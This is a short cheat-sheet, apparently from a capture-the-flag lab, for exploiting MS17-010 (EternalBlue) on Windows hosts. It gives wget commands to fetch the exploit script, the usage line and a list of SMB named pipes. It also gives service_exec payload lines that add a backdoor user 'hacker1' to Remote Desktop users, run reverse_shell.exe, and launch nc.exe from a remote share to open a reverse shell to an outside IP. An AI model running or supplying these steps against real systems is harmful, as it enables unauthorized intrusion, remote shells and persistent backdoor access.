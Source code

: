 # MS17-010 Eternalblue

```bash
wget https://www.exploit-db.com/download/42315 -O MS17-010.py
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

Modify accordingly for remote command to be executed at approximately Line 916 examples:

`service_exec(conn, r'cmd /c net localgroup "Remote Desktop users" hacker1 /add')`

`service_exec(conn, r'cmd /c reverse_shell.exe')`

`service_exec(conn, r'cmd /c \\10.11.1.227\share\nc.exe 10.11.0.69 5555 -e cmd.exe')`

Usage:

```bash
python MS17-010.py <ip> <pipe>
```

For pipes you could use the following:

```bash
pipe list:
root@kali:/mnt/hgfs/HTB/blue/exploit# cat /usr/share/metasploit-framework/data/wordlists/named_pipes.txt
netlogon
lsarpc
samr
browser
atsvc
DAV RPC SERVICE
epmapper
eventlog
InitShutdown
keysvc
lsass
LSM_API_service
ntsvcs
plugplay
protected_storage
router
SapiServerPipeS-1-5-5-0-70123
scerpc
srvsvc
tapsrv
trkwks
W32TIME_ALT
wkssvc
PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER
db2remotecmd
```

